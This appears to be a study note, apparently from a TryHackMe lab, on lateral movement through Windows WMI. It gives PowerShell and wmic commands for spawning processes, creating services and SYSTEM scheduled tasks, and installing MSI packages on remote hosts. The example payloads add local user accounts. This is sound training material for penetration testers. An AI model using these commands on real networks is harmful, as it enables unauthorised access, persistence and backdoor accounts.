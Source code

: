 
## General

==(Similar to Spawning Processes Remotely)==

"Moving Laterally Using WMI" is a technique used to access and control other computers on a network through a technology called WMI (Windows Management Instrumentation). This technique allows you to connect to other computers using PowerShell, create and manage processes, services and scheduled tasks remotely, as well as installing MSI packages.

First, you need to connect to WMI from PowerShell, this will allow you to access the WMI on the remote computer. Once connected, you can use the WMI to remotely create processes on the remote computer, this is called "Remote Process Creation Using WMI".

You can also use WMI to create services remotely, this means you can start and stop services on the remote computer without having to physically access it. This is called "Creating Services Remotely with WMI".

Another thing you can do with WMI is creating scheduled tasks remotely, this means you can create tasks that will run automatically on the remote computer at a specific time. This is called "Creating Scheduled Tasks Remotely with WMI".

Finally, you can use WMI to install MSI packages on the remote computer, this means you can install software without having to physically access the computer. This is called "Installing MSI packages through WMI".


- Why Using WMI rather then PSexec, SC.exe or a simple reverse shell?
	1.  WMI is built into Windows, so it does not require any additional software to be installed. This can be useful in situations where you are not able to install additional tools on the target system.
	2.  WMI allows for remote management of processes, services, and other aspects of the system, which can be useful for managing multiple systems at once.
	3.  WMI can be used with PowerShell, which provides a rich set of commands for managing and automating Windows systems. This can make it easier to create scripts and automate tasks.
	4.  WMI can provide more fine-grained control over processes. For example, the 'Create' method of the Win32_Process class allows passing more arguments than PSexec or SC, like priority level, working directory, etc.
	5. WMI can be used to create a persistance connection to the target machine using scheduled task



## Commands

### Connecting to WMI

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password. This object will be stored in the $credential variable and utilised throughout the techniques on this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use throughout the room on the different techniques:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.



### Remote Process Creation Using WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
        
-   **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```



### Creating Services Remotely with WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```



### Creating Scheduled Tasks Remotely with WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```



### Installing MSI packages through WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```